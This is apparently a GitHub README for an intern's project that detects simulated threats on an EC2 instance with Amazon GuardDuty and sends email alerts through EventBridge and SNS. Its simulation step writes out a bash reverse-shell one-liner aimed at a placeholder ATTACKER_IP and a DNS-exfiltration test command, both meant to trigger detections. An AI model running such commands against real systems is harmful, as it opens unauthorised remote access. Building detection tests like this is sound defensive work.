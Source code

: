 #AWS GuardDuty Threat Detection Project

##Project Overview

This project demonstrates how to simulate and detect suspicious behavior on an EC2 instance using **Amazon GuardDuty**, and send real-time alerts to an email via **SNS (Simple Notification Service)**.

You will:
- Deploy an EC2 instance with simulated vulnerabilities
- Enable GuardDuty for threat detection
- Trigger test findings and real behavior (DNS exfiltration, reverse shell)
- Use EventBridge to forward GuardDuty alerts to SNS
- Receive alerts via email

---

## Architecture

```

[EC2 Instance]
↓
Simulated Threat
↓
[GuardDuty]
↓
[Amazon EventBridge Rule]
↓
[Amazon SNS Topic]
↓
[Email Notification]

````


## Steps to Deploy

### 1. Launch EC2 Instance
- AMI: Amazon Linux 2 or 2023
- Instance Type: t2.micro
- Enable SSH and optionally HTTP/HTTPS in the Security Group
- Add this User Data (for Java setup):
```bash
#!/bin/bash
dnf install -y java-17-amazon-corretto
````

### 2. Simulate Threats on EC2

SSH into the instance and run:

```bash
# Simulate DNS exfiltration
dig $(uuidgen).yourdomain.com

# Simulate reverse shell (for test only)
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

---

### 3. Enable GuardDuty

* Go to **Amazon GuardDuty** > Enable
* GuardDuty will begin monitoring for suspicious behavior

---

### 4. Create an SNS Topic

* Name: `GuardDutyAlerts`
* Subscribe your email (Confirm via email)

---

### 5. Setup EventBridge Rule

* Service: `aws.guardduty`
* Event type: `GuardDuty Finding`
* Target: SNS Topic `GuardDutyAlerts`

---

### 6. Generate Sample Findings (Optional)

```bash
aws guardduty list-detectors
aws guardduty create-sample-findings --detector-id <detector-id>
```

---

## Example Alert Email

You’ll receive an email like this when a finding occurs:

```json
{
  "source": "aws.guardduty",
  "detail-type": "GuardDuty Finding",
  "detail": {
    "type": "Recon:EC2/PortScan",
    "severity": 5,
    "resource": {
      "instanceDetails": {
        "instanceId": "i-xxxxxx"
      }
    }
  }
}
```

---

## Learnings

* GuardDuty detects behavior, not vulnerabilities
* SNS + EventBridge is ideal for automated alerting
* Simulated attacks help test detection pipelines safely


## Security Note

> All simulations were conducted in a secure, isolated AWS environment with no real malware or external C2 communication. Never use real attacks in production accounts.

---

## References

* [AWS GuardDuty Documentation](https://docs.aws.amazon.com/guardduty/)
* [AWS SNS](https://docs.aws.amazon.com/sns/)
* [AWS CLI Guide](https://docs.aws.amazon.com/cli/)

---

## Author

**Md Khiruzzaman**
Cloud Engineering Intern
GitHub: [mkovy39](https://github.com/mkovy39)
